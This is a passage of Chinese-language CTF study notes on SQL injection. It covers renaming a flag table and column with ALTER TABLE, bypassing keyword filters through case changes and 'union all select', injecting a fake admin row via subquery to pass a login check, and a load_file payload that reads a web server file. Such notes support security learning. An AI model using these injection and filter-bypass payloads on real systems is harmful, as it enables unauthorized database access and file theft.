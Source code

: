 感觉像是set设置变量值然后在语句中替换，使用concat绕过关键字过滤

## 修改原查询法

如果没有过滤alter，把默认展示的字段名字修改，把想看的字段名字、表明等修改为默认展示的名字

将放着flag的表1919810931114514名字改成words

alter table `1919810931114514` rename to words

表里头字段名flag改成id

alter table words change flag id varchar(100)

- `ALTER TABLE words` 表示您要修改的表是名为 `words` 的表。

- ```
  CHANGE flag id varchar(100)
  ```

   是实际的修改部分。它的含义是：

  - `CHANGE` 表示您要更改一个列的属性。
  - `flag` 是要更改的列的当前名称。
  - `id` 是要将该列更改为的新名称。
  - `varchar(100)` 是新的数据类型，将该列更改为 VARCHAR 类型，最大长度为 100 个字符。

## 过滤

- strstr函数不区分大小写，所以我们可以改一下大小写来绕过strstr函数
- 过滤了union select，我们用union all select 就可以绕过



## 子查询

[sql中的无关子查询与相关子查询和集合查询详细举例说明_无关子查询和相关子查询_ctf^_^的博客-CSDN博客](https://blog.csdn.net/m0_63525319/article/details/127982141)

![image-20231103001841549](https://raw.githubusercontent.com/Taninluv/PICLIB/master/202311030020659.png)

相当于临时新建了一个a表，username字段放入admin，password字段放入123，用来绕过其后的验证：

```
query ("select username,password from ".$this->table." where username='".$this->username."' and password='".$this->password."'");
```

这里实际相当于注入了一个表



## 非预期-load_file

```
?no=-1 union/**/select 1,load_file("/var/www/html/flag.php"),3,4--+
```

如果猜到路径，直接load_file读取



# FileUpload

[【精选】攻防世界easyupload （web新手）_sean7777777的博客-CSDN博客](https://blog.csdn.net/yuanxu8877/article/details/128071631)
```